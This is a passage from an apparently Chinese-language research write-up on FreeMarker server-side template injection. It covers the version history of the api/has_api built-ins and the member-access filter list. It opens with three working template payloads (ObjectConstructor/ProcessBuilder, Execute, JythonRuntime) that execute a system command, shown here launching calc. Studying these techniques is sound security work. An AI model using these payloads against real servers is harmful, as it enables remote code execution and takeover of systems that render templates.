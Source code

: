 ```html
<#assign var="freemarker.template.utility.ObjectConstructor"?new()> ${var("java.lang.ProcessBuilder","calc").start()}

<#assign var="freemarker.template.utility.Execute"?new()>${var("calc")}

 <#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

#### build-in api

&emsp;&emsp;[api, has_api](https://freemarker.apache.org/docs/ref_builtins_expert.html#ref_buitin_api_and_has_api)为2.3.22中新增的内置方法，默认不开启（开发者开启的可能性较高），并且在版本 <=2.3.29 的情况下对build-in api方法使用没有限制，在2.3.30及之后版本中加入了过滤机制。

&emsp;&emsp;通过 build-in api 我们可以像访问API一样访问对象的相关字段、方法，通过在freemarker.ext.beans.BeanModel.get 打上断点，我们可以观察该对象的build-in api的获取情况。

![ftl.BeanModel.get](png/ftl.BeanModel.get.png)

&emsp;&emsp;相关过滤名单在[DefaultMemberAccessPolicy-rules](https://github.com/apache/freemarker/blob/v2.3.32/src/main/resources/freemarker/ext/beans/DefaultMemberAccessPolicy-rules) 中，且在 f.e.b.DefaultMemberAccessPolicy#loadMemberSelectorFileLines 方法中读取了该文件并进行过滤名单的初始化。

